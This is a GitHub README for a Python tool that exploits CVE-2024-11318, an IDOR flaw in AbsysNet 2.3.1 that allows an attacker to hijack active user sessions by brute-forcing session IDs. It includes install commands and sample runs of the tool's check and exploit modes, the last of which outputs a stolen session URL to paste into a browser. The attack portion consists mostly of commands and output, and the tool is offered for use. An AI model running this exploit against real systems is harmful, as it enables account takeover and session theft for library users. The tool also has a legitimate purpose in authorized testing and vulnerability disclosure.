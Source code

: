 # CVE-2024-11318 (IDOR - AbsysNet 2.3.1 User Hijacking)
---
# DISCLAIMER

This tool is designed to help identify and exploit whether an application is vulnerable to this specific CVE-2024-11318. It is intended for use by cybersecurity professionals, researchers, and penetration testers to assess security in environments where they have explicit authorization.

If the vulnerability is confirmed, exploitation should only occur if you have proper authorization from the application or system owner.

***Unauthorized use of this tool against systems or networks you do not own or have explicit permission to test is illegal and unethical. The author takes no responsibility for misuse or damage caused by this tool.***

By using this tool, you agree to comply with all relevant laws and ethical standards. Always ensure you have explicit permission before conducting tests or exploiting vulnerabilities.

---
## DESCRIPTION

This vulnerability affects AbsysNet version 2.3.1 and allows a remote attacker to compromise an active user's session. The attack involves exploiting an IDOR (Insecure Direct Object Reference) vulnerability in the /cgi-bin/ocap/ endpoint, where the session identifier is susceptible to brute-forcing. 

Upon successfully matching a session ID associated with an authenticated user, the authentication token is exposed in the HTML code. However, the attack is limited to active sessions, and if the affected user logs out, the attacker’s access is immediately terminated, restricting the persistence of the compromise.

With this vulerability is only posible to hijack user sessions that are currenltly logged in and if the current user loggeds off the attacker loses the conection. 

---

## INSTALL

```sh
git clone https://github.com/xthalach/CVE-2024-11318.git
cd CVE-2024-11318
python3 -m venv cve-2024-11318
source cve-2024-11318/bin/activate
pip install -r requirements.txt
python3 cve-2024-11318.py
```

---

## USAGE
```text
python3 cve-2024-11318.py 

                                                                                                                                                                      
    ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██╗  ██╗       ██╗ ██╗██████╗  ██╗ █████╗ 
    ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██║  ██║      ███║███║╚════██╗███║██╔══██╗
    ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████║█████╗╚██║╚██║ █████╔╝╚██║╚█████╔╝
    ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝ ██║ ██║ ╚═══██╗ ██║██╔══██╗
    ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗     ██║       ██║ ██║██████╔╝ ██║╚█████╔╝
    ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝     ╚═╝       ╚═╝ ╚═╝╚═════╝  ╚═╝ ╚════╝ 

    ᴀᴜᴛʜᴏʀ﹕xᴛʜᴀʟᴀᴄʜ ʜᴛᴛᴘs﹕//xᴛʜᴀʟᴀᴄʜ.ɢɪᴛʜᴜʙ.ɪᴏ/
    ɪɴsᴛᴀɢʀᴀᴍ﹕ ﹫xᴛʜᴀʟᴀᴄʜ.ᴛᴡɪᴛᴄʜ
    ᴛᴡɪᴛᴛᴇʀ﹕ ﹫xᴛʜᴀʟᴀᴄʜ
    
usage: CVE-2024-11318.py [-h] -u URL [--check] [--exploit]

This script allows you to assess whether a website is vulnerable to CVE-2024-11318. If confirmed, it provides the option to exploit the vulnerability, but only under circumstances where you have explicit authorization to do so.

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Target URL
  --check            This option in this script allows you to test whether a website is vulnerable to the CVE-2024-11318.
  --exploit          This option in this script enables you to exploit the CVE-2024-11318 vulnerability.

```

## --CHECK

- Vulnerable 
```text
└─$ python3 CVE-2024-11318.py -u 'https://www.contoso.com/cgi-bin/opac/O7375/ID009a7a6e?ACC=101' --check
                                                                                                                                                                      
    ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██╗  ██╗       ██╗ ██╗██████╗  ██╗ █████╗ 
    ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██║  ██║      ███║███║╚════██╗███║██╔══██╗
    ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████║█████╗╚██║╚██║ █████╔╝╚██║╚█████╔╝
    ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝ ██║ ██║ ╚═══██╗ ██║██╔══██╗
    ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗     ██║       ██║ ██║██████╔╝ ██║╚█████╔╝
    ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝     ╚═╝       ╚═╝ ╚═╝╚═════╝  ╚═╝ ╚════╝ 

    ᴀᴜᴛʜᴏʀ﹕xᴛʜᴀʟᴀᴄʜ ʜᴛᴛᴘs﹕//xᴛʜᴀʟᴀᴄʜ.ɢɪᴛʜᴜʙ.ɪᴏ/
    ɪɴsᴛᴀɢʀᴀᴍ﹕ ﹫xᴛʜᴀʟᴀᴄʜ.ᴛᴡɪᴛᴄʜ
    ᴛᴡɪᴛᴛᴇʀ﹕ ﹫xᴛʜᴀʟᴀᴄʜ
    
[|] STARTING ATTACK: CHECKING IF THE TARGET IT'S VULNERABLE!
[*] CHECKING URL: https://www.contoso.com/cgi-bin/opac/O7375/?ACC=101
[+] VULNERABLE: The token 'ID009a7a6e' has been found in the html code.

```

- Not Vulnerable
```text
└─$ python3 CVE-2024-11318.py -u 'https://contoso.com/cgi-bin/abnetopac/O7fbxZNd3yjeqX7isbLYjGeEUqX?ACC=101' --check
                                                                                                                                                                      
    ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██╗  ██╗       ██╗ ██╗██████╗  ██╗ █████╗ 
    ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██║  ██║      ███║███║╚════██╗███║██╔══██╗
    ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████║█████╗╚██║╚██║ █████╔╝╚██║╚█████╔╝
    ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝ ██║ ██║ ╚═══██╗ ██║██╔══██╗
    ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗     ██║       ██║ ██║██████╔╝ ██║╚█████╔╝
    ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝     ╚═╝       ╚═╝ ╚═╝╚═════╝  ╚═╝ ╚════╝ 

    ᴀᴜᴛʜᴏʀ﹕xᴛʜᴀʟᴀᴄʜ ʜᴛᴛᴘs﹕//xᴛʜᴀʟᴀᴄʜ.ɢɪᴛʜᴜʙ.ɪᴏ/
    ɪɴsᴛᴀɢʀᴀᴍ﹕ ﹫xᴛʜᴀʟᴀᴄʜ.ᴛᴡɪᴛᴄʜ
    ᴛᴡɪᴛᴛᴇʀ﹕ ﹫xᴛʜᴀʟᴀᴄʜ
    
[q] STARTING ATTACK: CHECKING IF THE TARGET IT'S VULNERABLE!
[←] CHECKING URL: https://contoso.com/cgi-bin/abnetopac/O7fbxZNd3yjeqX7isbLYjGeEUqX?ACC=101
[-] NOT VULNERABLE: The aplication has been pached, token value "O7fbxZNd3yjeqX7isbLYjGeEUqX" not match.

```

## --EXPLOIT

```text
└─$ python3 CVE-2024-11318.py -u 'https://www.contoso.com/cgi-bin/opac/O7067/ID5c22d860?ACC=101' --exploit
                                                                                                                                                                      
    ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██╗  ██╗       ██╗ ██╗██████╗  ██╗ █████╗ 
    ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██║  ██║      ███║███║╚════██╗███║██╔══██╗
    ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████║█████╗╚██║╚██║ █████╔╝╚██║╚█████╔╝
    ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝ ██║ ██║ ╚═══██╗ ██║██╔══██╗
    ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗     ██║       ██║ ██║██████╔╝ ██║╚█████╔╝
    ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝     ╚═╝       ╚═╝ ╚═╝╚═════╝  ╚═╝ ╚════╝ 

    ᴀᴜᴛʜᴏʀ﹕xᴛʜᴀʟᴀᴄʜ ʜᴛᴛᴘs﹕//xᴛʜᴀʟᴀᴄʜ.ɢɪᴛʜᴜʙ.ɪᴏ/
    ɪɴsᴛᴀɢʀᴀᴍ﹕ ﹫xᴛʜᴀʟᴀᴄʜ.ᴛᴡɪᴛᴄʜ
    ᴛᴡɪᴛᴛᴇʀ﹕ ﹫xᴛʜᴀʟᴀᴄʜ
    
[█] STARTING ATTACK: EXPLOITING THE TARGET!
[*] --- STARTING EXPLOIT ---
[b] URL: https://www.contoso.com/cgi-bin/opac/O7099/?ACC=101
[+] User Token Hijacking: https://www.contoso.com/cgi-bin/opac/O7054/ID9f842d80?ACC=101 (COPY & PASTE INTO BROWSER)

```




